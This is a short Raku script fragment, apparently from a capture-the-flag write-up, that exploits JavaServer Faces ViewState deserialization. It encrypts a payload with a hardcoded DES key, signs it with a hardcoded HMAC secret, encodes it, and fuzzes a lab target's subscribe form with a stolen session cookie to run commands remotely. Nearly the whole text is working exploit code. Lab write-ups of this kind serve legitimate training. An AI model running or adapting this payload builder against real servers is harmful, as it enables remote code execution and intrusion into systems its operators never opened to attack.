 ```perl6
    #encrypt and sign it with openssl
    qx|openssl enc -des-ecb -K 4a7346393837362d -in /tmp/pload1 -out /tmp/pload2|;
    my $mac = qx|openssl sha1 -hmac "JsF9876-" /tmp/pload2|;

    #put it together
    my @bytes = $mac.chomp.split(' ').tail.comb(2);
    my buf8 $buff = '/tmp/pload2'.IO.slurp(:bin);
    $buff.append(@bytes>>.parse-base(16));
    my $payload = base64-enc($buff)
                  .decode('utf8-c8')
                  .trans(['+'] => ['%2B'],['/']=>['%2F'],['=']=>['%3D']);
    return $payload;
}
#updates the email addr after each request. Note the new wildcard
sub updatefields() {
   %fuzz{'javax.faces.ViewState'} ='FUZZ';
   %fuzz{'j_id_jsp_1623871077_1%3Aemail'} = roll-email();
   return hash2fields(%fuzz);
}

#instantiate RC, grab a session cookie, and start running commands
my $rc = RC.new('http://10.10.10.130:8080/userSubscribe.faces');
$rc.set-header('Cookie' => $rc.grab-cookie.split(';').head);
my $fuzzstr = hash2fields(%fuzz);
$rc.fuzz(FUZZPOST,$fuzzstr, :mutate(&genpayload), :custom(&updatefields), :print(&{$rc.p-statcode}));
```
